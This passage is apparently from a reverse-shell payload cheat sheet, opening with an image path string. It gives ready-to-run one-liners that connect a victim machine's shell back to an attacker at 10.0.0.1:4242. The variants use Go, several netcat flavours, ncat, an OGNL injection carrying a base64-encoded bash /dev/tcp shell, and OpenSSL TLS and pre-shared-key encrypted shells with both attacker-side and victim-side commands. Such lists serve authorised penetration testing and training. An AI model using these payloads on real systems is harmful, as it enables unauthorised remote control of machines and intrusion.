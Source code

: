 ```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Netcat Traditional

```bash
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

### Netcat OpenBsd

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Netcat BusyBox

```bash
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

### Ncat

```bash
ncat 10.0.0.1 4242 -e /bin/bash
ncat --udp 10.0.0.1 4242 -e /bin/bash
```

### OGNL

```java
(#a='echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xLjIuMy40LzQ0NDQgMD4mMScK | base64 -d | bash -i').(#b={'bash','-c',#a}).(#p=new java.lang.ProcessBuilder(#b)).(#process=#p.start())
```

### OpenSSL

Attacker:
```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port 4242
or
user@attack$ ncat --ssl -vv -l -p 4242

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s
```

TLS-PSK (does not rely on PKI or self-signed certificates)
```bash
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
# server (attacker)
export LHOST="*"; export LPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
# client (victim)
export RHOST="10.0.0.1"; export RPORT="4242"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```
